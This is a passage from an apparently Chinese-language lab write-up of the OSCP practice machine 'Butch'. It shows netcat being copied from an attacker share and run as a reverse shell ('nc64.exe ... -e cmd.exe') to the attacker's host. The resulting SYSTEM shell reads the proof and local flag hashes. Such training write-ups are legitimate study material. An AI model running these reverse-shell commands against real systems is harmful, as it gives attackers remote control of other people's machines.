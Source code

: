 Windows端接收文件：

```sh
C:\tmp&gt;copy \\192.168.45.164\share\nc64.exe .
        1 file(s) copied.

C:\tmp&gt;dir
 Volume in drive C has no label.
 Volume Serial Number is D4C7-EAE0
 Directory of C:\tmp
02/12/2024  04:46 AM    &lt;DIR&gt;          .
02/12/2024  04:46 AM    &lt;DIR&gt;          ..
12/25/2010  09:31 PM            43,696 nc64.exe
               1 File(s)         43,696 bytes
               2 Dir(s)  33,599,651,840 bytes free
```

再使用nc建立一个稳定的shell

```sh
C:\tmp&gt;nc64.exe 192.168.45.164 21 -e cmd.exe
```



```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ nc -nlvp 21
listening on [any] 21 ...
connect to [192.168.45.164] from (UNKNOWN) [192.168.225.63] 49829
Microsoft Windows [Version 10.0.17763.1217]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\tmp&gt;whoami
whoami
nt authority\system

C:\tmp&gt;powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\tmp&gt; type C:\users\administrator\desktop\proof.txt
type C:\users\administrator\desktop\proof.txt
8efb9ecaa9dd953e25de084f5db30648
PS C:\tmp&gt; type C:\users\butch\desktop\local.txt
type C:\users\butch\desktop\local.txt
0f5cfaf654fe39337300f602295effb4
PS C:\tmp&gt; 

PS C:\tmp&gt; 
```

#### 恶意文件2

